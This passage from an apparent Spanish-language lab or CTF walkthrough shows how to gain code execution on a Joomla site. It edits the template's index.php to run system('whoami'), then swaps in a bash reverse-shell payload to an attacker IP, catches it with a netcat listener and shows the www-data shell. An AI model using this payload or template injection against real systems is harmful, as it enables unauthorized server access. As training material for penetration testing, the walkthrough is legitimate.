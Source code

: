 Navegamos a `System -> Site Templates` y seleccionamos la plantilla activa (por ejemplo, `Cassiopeia`). Editamos el archivo `index.php` de la plantilla. Este archivo se ejecuta cada vez que se carga una página del sitio web.

Para verificar la ejecución de comandos, podemos añadir una línea simple como `system('whoami');`.

```php
<?php
// ... código existente ...
system('whoami'); // Añadimos esta línea para probar la ejecución de comandos
// ... más código existente ...
?>
```

Al guardar y recargar la página principal del sitio, deberíamos ver el resultado del comando `whoami` (por ejemplo, `www-data`), confirmando que podemos ejecutar comandos en el servidor web.

### 4.2. Ejecución de Reverse Shell

Una vez confirmada la ejecución de comandos, reemplazamos el comando `system('whoami');` con un payload de reverse shell. Este payload hará que el servidor se conecte a nuestra máquina atacante, dándonos una shell interactiva.

**Payload de Reverse Shell (PHP):**

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP_DE_TU_KALI>/443 0>&1'");
```

*   `exec()`: Función de PHP para ejecutar comandos externos.
*   `/bin/bash -c '...'`: Ejecuta un comando bash.
*   `bash -i`: Inicia una shell interactiva.
*   `>& /dev/tcp/<IP_DE_TU_KALI>/443`: Redirige la entrada y salida estándar a una conexión TCP a la IP de nuestra máquina atacante en el puerto 443.

**En la Máquina Atacante:**

Antes de recargar la página, configuramos un `netcat` listener en nuestra máquina atacante para recibir la conexión entrante en el puerto 443.

```bash
nc -lvnp 443
```

Después de configurar el listener, recargamos la página web de Joomla! en el navegador. Esto ejecutará el código PHP inyectado y nos dará una shell inversa en nuestra máquina atacante.

```bash
www-data@<ID_DEL_CONTENEDOR>:/var/www/html/joomla$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Confirmamos que estamos como el usuario `www-data`.

### 4.3. Tratamiento de la TTY (Opcional pero Recomendado)

Para una mejor interacción con la shell (autocompletado, historial, etc.), es recomendable convertirla en una TTY (terminal) interactiva. Esto se logra con los siguientes comandos:
